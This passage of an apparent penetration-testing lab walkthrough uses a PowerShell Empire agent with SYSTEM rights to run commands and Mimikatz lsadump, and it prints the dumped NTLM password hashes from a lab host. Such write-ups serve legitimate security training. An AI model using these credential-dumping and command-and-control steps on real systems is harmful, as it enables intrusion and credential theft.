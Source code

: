 <span style="color: #2196f3;">PowerShell-Empire Client</span>.

_Verifying that the agent has successfully connected back to the Empire server._

`Agents`:

| ID | Name      | Language   | Internal IP | Username         | Process    | PID  | Delay | Last Seen               | Listener |
|----|-----------|------------|-------------|------------------|------------|------|-------|-------------------------|----------|
| 1  | 9UHYCNAD* | powershell | 10.4.16.167 | WORKGROUP\SYSTEM | powershell | 3016 | 5/0.0 | 2024-08-06 22:12:18 IST | http     |
|    |           |            |             |                  |            |      |       | (2 seconds ago)         |          |

_Opening the agent's detailed view to monitor its status and perform specific actions, such as running commands or interacting with the target system's file structure._

`Agents`, `9UHYCNAD*` (right-click) > `View`

_Interacting with the newly connected agent to execute further commands._

`Interact` > `Shell Command: whoami` > `Run`:
```
nt authority\system
```

_Extracting credentials using Mimikatz, which provides hashed passwords for further exploitation._

`Interact` > `Execute Module: usemodule powershell/credentials/mimikatz/lsadump` > `Run`:
```
Hostname: attackdefense / authority\system-authority\system

  .#####.   mimikatz 2.2.0 (x64) #19041 Nov 20 2021 08:28:06
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # lsadump::lsa /patch
Domain : ATTACKDEFENSE / S-1-5-21-2202681729-75510020-2229350343

RID  : 000001f4 (500)
User : Administrator ←
LM   : 
NTLM : 5c4d59391f656d5958dab124ffeabc20 ←

RID  : 000001f5 (501)
User : Guest
LM   : 
NTLM : 

RID  : 000003f1 (1009)
User : local_admin
LM   : 
NTLM : 89551acff8895768e489bb3054af94fd
```
